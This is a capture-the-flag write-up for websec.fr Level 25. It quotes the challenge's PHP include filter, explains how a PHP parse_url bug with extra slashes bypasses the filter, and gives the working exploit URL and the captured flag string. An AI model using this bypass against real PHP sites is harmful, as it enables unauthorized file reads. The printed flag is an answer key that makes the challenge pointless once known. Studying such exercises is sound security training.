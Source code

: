# Level 25
## Description
Challenge URL: http://websec.fr/level25/index.php?page=main  

You can *include any page so long as it is ~~black~~ not the `flag.txt` one*. As usual, the source code is [free](http://websec.fr/level25/source.php).

## Solution
The source code is:
```php
<?php
if (!isset($_GET['page'])) {
  header('Location: http://websec.fr/level25/index.php?page=main');
  die();
}
?>

// ...

<?php
parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
foreach ($query as $k => $v) {
  if (stripos($v, 'flag') !== false)
    die('You are not allowed to get the flag, sorry :/');
  }

include $_GET['page'] . '.txt';
?>
```

After working around, I found [this](https://bugs.php.net/bug.php?id=79522) says that the `parse_url` function has a bug when the path in the URL absolute and has multiple `/`.  

For proof on concept, I tried:
```
http://websec.fr/level25//index.php?page=flag
http://websec.fr/level25///index.php?page=flag
http://websec.fr/level25////index.php?page=flag
...
```

And all failed. That means:
- `websec.fr` is the hostname
- `/level25/index.php` is the `path` which is parsed by `parse_url`
- `/level25///////index.php`, regardless the number of `/`, is still the path to the same `/level25/index.php` since the `//////` is now a ***relative*** path
- However, `parse_url()` fails when the `path` is `///level25/index.php` which is now an ***absolute*** path. As stated in the bug report [above](https://bugs.php.net/bug.php?id=79522), `parse_url()` fails to parse absolute path with multiple `/` correctly.

From these information, our worked URL could be:
```
http://websec.fr///level25/index.php?page=flag
```
> Flag: `WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}`
